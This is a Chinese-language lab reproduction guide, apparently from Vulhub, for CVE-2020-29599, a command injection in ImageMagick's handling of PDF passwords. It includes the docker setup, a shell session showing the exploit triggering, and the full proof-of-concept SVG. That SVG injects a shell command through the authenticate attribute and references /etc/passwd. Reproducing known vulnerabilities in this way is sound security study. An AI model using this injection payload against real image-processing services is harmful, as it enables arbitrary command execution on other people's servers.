

ImageMagick PDF密码位置命令注入漏洞 CVE-2020-29599¶
漏洞描述¶
ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。
参考链接：
环境搭建¶
Vulhub直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：
docker-compose run im bash
漏洞复现¶
进入/tmp目录，对poc.svg进行格式转换，即可触发漏洞：
{kind=link}
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned poc.svg
root@f200ec9e1c1e:/tmp
查看poc.svg文件内容：
root@a1b29c85d417:/tmp# strings poc.svg
poc.svg的内容如下：
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
<read filename="pdf:/etc/passwd"/>
<get width="base-width" height="base-height" />
<resize geometry="400x400" />
<write filename="test.png" />
<svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<image xlink:href="msl:poc.svg" height="100" width="100"/>
</svg>
</image>
此时命令echo $(id)> ./0wned已执行成功：
